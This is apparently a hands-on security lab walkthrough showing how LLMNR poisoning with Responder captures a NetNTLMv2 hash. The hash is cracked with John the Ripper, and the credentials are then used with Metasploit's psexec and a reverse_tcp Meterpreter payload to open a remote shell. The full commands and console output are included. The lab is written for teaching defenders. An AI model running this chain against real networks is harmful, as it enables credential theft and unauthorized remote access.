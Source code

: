 

# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a weak password.

Specifically, we are looking to take advantage of LLMNR.  

First, we will need to load our terminal and start responder.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Next, let’s become root:

adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ `sudo su -`

Let’s change into the Responder directory:

root@DESKTOP-I1T2G01:~# `cd /opt/Responder/`

And let’s start Responder:

root@DESKTOP-I1T2G01:/opt/Responder# `./Responder.py -I eth0`

![](attachments/Clipboard_2020-06-23-14-22-03.png)

Now, let's go back to your Windows system and open Windows Explorer and put in the string \\\Noooo into the address bar.

![](attachments/Clipboard_2020-06-23-14-22-57.png)

Give it a few moments and you should see some capture data showing up.  Please note there may be an error.  That is OK.


![](attachments/Clipboard_2020-06-23-14-22-23.png)

Next we need to kill Responder with Ctrl + c.  This will return the command prompt. 

Now, we need to change to the logs directory.

root@DESKTOP-I1T2G01:/opt/Responder# `cd logs/`

Once there, we will need to start John The Ripper"

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Ubuntu Command Prompt.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

<pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!



